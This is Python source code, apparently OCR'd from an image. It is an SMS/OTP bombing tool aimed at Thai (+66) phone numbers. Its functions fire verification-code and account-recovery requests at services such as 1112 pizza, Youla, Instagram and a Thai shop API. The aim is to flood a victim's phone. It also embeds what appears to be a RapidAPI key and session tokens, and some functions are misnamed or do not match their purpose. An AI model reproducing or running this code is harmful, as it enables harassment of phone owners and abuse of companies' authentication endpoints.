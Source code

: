 def findclone(phone):

    d=get(f"https://findclone.ru/register?phone=+66{phone[1:]}",headers={"X-Requested-With" : "XMLHttpRequest","User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"}).json()

def spam_pizza(phone): #pizza

    post('https://api2.1112.com/api/v1/otp/create', data = {'phonenumber': phone, 'language': "th"})

def youla(phone):

    post('https://youla.ru/web-api/auth/request_code', data={'phone': phone})

def ig_token():

    d=get("https://www.instagram.com/",headers=header).headers['set-cookie']

    d=search("csrftoken=(.*);",d).group(1).split(";")

    return d[0],d[10].replace(" Secure, ig_did=","")

def Facebook(phone):

    token,_=ig_token()

    d=post("https://www.instagram.com/accounts/account_recovery_send_ajax/",data=f"email_or_username=66{phone}&recaptcha_challenge_field=",headers={"Content-Type":"application/x-www-form-urlencoded","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36","X-CSRFToken":token}).json()

def instagram(phone):

    token,cid=ig_token()

    d=post("https://www.instagram.com/accounts/send_signup_sms_code_ajax/",data=f"client_id={cid}&phone_number=66{phone}&phone_id=&big_blue_token=",headers={"Content-Type":"application/x-www-form-urlencoded","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36","X-CSRFToken":token}).json()

def Rapid(phone):

    d=post('https://rapidapi.com/blaazetech/api/spam-caller-check/',json={"phonenumber":phone,"language":"th"},headers=header).status_code

def VBC(phone):

    post('https://twitter-user-profile-data.p.rapidapi.com/v1/api/twitter',headers = {'content-type': "application/json",'x-rapidapi-host': "twitter-user-profile-data.p.rapidapi.com",'x-rapidapi-key': "775b9796aemshb6a4eefc8d0e33cp1d04d7jsnefd368e22b03"})

def api1(phone):

    post("https://m.thisshop.com/cos/send/code/notice", json={"sessionContext":{"channel":"h5","entityCode":0,"userReferenceNumber":"12w12y11r52gz259ue14rr7g7370239m","localDateTimeText":"20220115182850","riskMessage":"{}","serviceCode":"FLEX0001","superUserId":"sysadmin","tokenKey":"149d5c7bae10304c8aba0da2bbc59cb7","authorizationReason":"","transactionBranch":"TFT_ORG_0000","userId":"","locale":"th-TH"},"noticeType":1,"businessType":"RT0001","phoneNumber":f"66-{phone}"},headers={"content-type": "application/json; charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})
